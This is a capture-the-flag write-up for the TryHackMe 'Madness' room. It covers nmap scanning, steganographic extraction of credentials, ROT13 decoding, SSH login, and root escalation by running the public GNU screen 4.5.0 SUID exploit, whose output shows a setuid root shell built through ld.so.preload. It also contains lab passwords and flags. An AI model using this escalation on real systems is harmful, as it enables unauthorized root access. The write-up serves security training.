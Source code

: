 ```yaml
---
title: "Madness - TryHackMe"
author: Ludovic COULON
date: 2020-05-15
hero: ./images/hero.png
excerpt: "Writeup for the Madness room on TryHackMe"
---
```


[TryHackMe | Madness](https://tryhackme.com/room/madness)

![https://i.imgur.com/5iW7kC8.jpg](https://i.imgur.com/5iW7kC8.jpg)

Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

This room is part of the Turmoil series

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.52.214
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnNdHQKU4ZvpWn7Amdx7LPhuwUsHY8p1O8msRAEkaIGcDzlla2FxdlnCnS1h+A84lzn1oubZyb5vMrPM8T2IsxoSU2gcbbgfq/3giAL+hmuKm/nD43OKRflSHlcpIVgwQOVRdEfbQSOVpV5VBtJziA1Xu2dts2WWtawDS93CBtlfyeh+BuxZvBPX2k8XPWwykyR6cWbdGz1AAx6oxNRvNShJ99c9Vs7FW6bogwLAe9SWsFi2oB7ti6M/OH1qxgy7ZPQFhItvI4Vz2zZFGVEltL1fkwk2dat8yfFNWwm6+/cMTJqbVb7MPt3jc9QpmJmpgwyWuy4FTNgFt9GKNOJU6N
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGMMalsXVdAFj+Iu4tESrnvI/5V64b4toSG7PK2N/XPqOe3q3z5OaDTK6TWo0ezdamfDPem/UO9WesVBxmJXDkE=
|   256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB3zGVeEQDBVK50Tz0eNWzBJny6ddQfBb3wmmG3QtMAQ

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

### #1 user.txt

<div className="Image__Small">
  <img src="https://imgur.com/41PScB3.png" alt="blog_image" />
</div>

On the website in the source code we can see "They will never find me" let's wget the image and search if there is anything in there.

Once you open the image an error will show up, we need to convert the header image to a jpg file

<div className="Image__Small">
  <img src="https://imgur.com/zdz5gC1.png" alt="blog_image" />
</div>

```bash
change the first line to this
```

<div className="Image__Small">
  <img src="https://imgur.com/PklK0ei.png" alt="blog_image" />
</div>

Save the hex file and open the image to seethe result !

<div className="Image__Small">
  <img src="https://imgur.com/GrcsvaS.png" alt="blog_image" />
</div>

Nice we have a hidden directory !

<div className="Image__Small">
  <img src="https://imgur.com/01jTS9C.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/9D3EgD5.png" alt="blog_image" />
</div>

Now we have plainly of possibility to resolve this puzzle I've choose the simpler one

I created a list with python

```bash
>>> range(100)
[0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93, 94, 95, 96, 97, 98, 99]
```

Then a imported this list in burp suite and I started the attack !

<div className="Image__Medium">
  <img src="https://imgur.com/ABpS7HJ.png" alt="blog_image" />
</div>

Now we can extract some files on the "thm.jpg" image from the apache website.

```bash
➜  TryHackMe steghide extract -sf thm.jpg
Enter passphrase:
the file "hidden.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "hidden.txt".

➜  TryHackMe cat hidden.txt
Fine you found the password!

Here's a username

wbxre

I didn't say I would make it easy for you!
```

After reading the hint given by TryHackMe

```bash
There's something ROTten about this guys name!
```

I tried to decode the username using the ROT13 algo

<div className="Image__Medium">
  <img src="https://imgur.com/Qn5keAi.png" alt="blog_image" />
</div>

And it worked !! Let's ssh the server now with the username and password

```bash
ssh joker@ip
password : y2RPJ4QaPF!B
```

Aaaannd it's not working for some reason.. After some time I tried the image on the room

<div className="Image__Small">
  <img src="https://imgur.com/P13mnW4.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe steghide extract -sf 5iW7kC8.jpg
Enter passphrase:
the file "password.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "password.txt".

➜  TryHackMe cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

"*axA&GF8dP"
```

```bash
➜  TryHackMe ssh joker@10.10.52.214
joker@10.10.52.214's password: "*axA&GF8dP"
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Thu May 14 15:00:54 2020 from 10.9.2.228
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

### #2 root.txt

Now let's get a root access ! :D

```bash
joker@ubuntu:~$ sudo -l
[sudo] password for joker:
Sorry, user joker may not run sudo on ubuntu.
# Nothing to do with sudo :/
```

```bash
joker@ubuntu:~$ find /bin -perm -4000
/bin/fusermount
/bin/su
/bin/ping6
"/bin/screen-4.5.0"
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
joker@ubuntu:~$
```

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/41154)

```bash
joker@ubuntu:~$ bash s.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

$ id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
$ cd /root/
$ ls
root.txt
$ cat root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
